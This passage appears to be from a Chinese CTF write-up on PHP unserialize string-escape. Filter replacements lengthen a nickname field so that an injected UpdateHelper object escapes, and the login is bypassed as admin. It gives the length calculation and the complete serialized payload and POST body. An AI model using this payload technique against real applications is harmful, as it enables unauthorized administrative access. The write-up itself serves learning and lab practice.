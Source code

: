 \是会被替换成hacker的，这样nickname的实际长度变长，但是s:271是固定的，所以后台一直认定nickname就是271个字符长。如果\的数量够多，那么我们后面的s:8:"CtrlCase";O:12:"UpdateHelper"就能逃逸出来，成功注入了一个UpdateHelper类。

```
";s:8:"CtrlCase";O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":2:{s:3:"age";s:70:"select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";s:8:"nickname";O:4:"Info":1:{s:8:"CtrlCase";O:6:"dbCtrl":2:{s:4:"name";s:5:"admin";s:8:"password";s:1:"1";}}}}}

```

长度是263个字符，`*`和hacker相差5个字符，into和hacker相差2个字符。所以一共要有4个into和51个`*`

```
age=1&nickname=***************************************************intointointointo";s:8:"CtrlCase";O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":2:{s:3:"age";s:70:"select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";s:8:"nickname";O:4:"Info":1:{s:8:"CtrlCase";O:6:"dbCtrl":2:{s:4:"name";s:5:"admin";s:8:"password";s:1:"1";}}}}}

```

post以后页面出现10-0代表成功，此时返回登录页面。此时token已经变成admin，用户名填admin，密码随意就可登录成功。

![image-20240811212222373](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408112122595.png)

![image-20240811212241937](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408112122967.png)

